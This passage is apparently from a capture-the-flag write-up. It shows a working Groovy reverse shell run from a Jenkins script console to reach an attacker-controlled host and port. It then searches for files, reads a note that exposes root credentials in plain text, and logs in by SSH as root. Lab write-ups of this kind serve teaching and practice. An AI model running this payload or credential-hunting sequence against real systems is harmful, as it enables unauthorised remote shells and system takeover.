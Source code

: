 ```groovy
String host="10.9.193.173";
int port=7777;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

We now have a reverse shell as user jenkins.

``` sh
find / -type f -iname "*.txt" 2>/dev/null
/opt/note.txt
/var/jenkins_home/userContent/readme.txt
/var/jenkins_home/war/images/atom-license.txt
/var/jenkins_home/war/scripts/combobox-readme.txt
/var/jenkins_home/war/WEB-INF/update-center-rootCAs/jenkins-update-center-root-ca.txt
/var/jenkins_home/war/WEB-INF/update-center-rootCAs/jenkins-update-center-root-ca-2.txt
/var/jenkins_home/war/WEB-INF/classes/dependencies.txt
/var/jenkins_home/war/dc-license.txt
/var/jenkins_home/war/robots.txt
/var/jenkins_home/war/css/font-awesome/fonts/LICENSE.txt
/var/jenkins_home/war/css/font-awesome/css/LICENSE.txt
/var/jenkins_home/war/css/google-fonts/roboto/LICENSE.txt
/usr/local/openjdk-8/demo/nio/zipfs/README.txt
/usr/local/openjdk-8/demo/nbproject/README.txt
...
```

The list is a little longer but the only interesting text file seems to be the note.

``` txt
cat note.txt
Aubreanna,

Will wanted these credentials secured behind the Jenkins container since we have several layers of defense here.  Use them if you
need access to the root user account.

root:tr0ub13guM!@#123
```

Let ssh as root and see if we find the flag :)

``` sh
ssh root@10.10.156.30
root@internal:~# cat root.txt
```
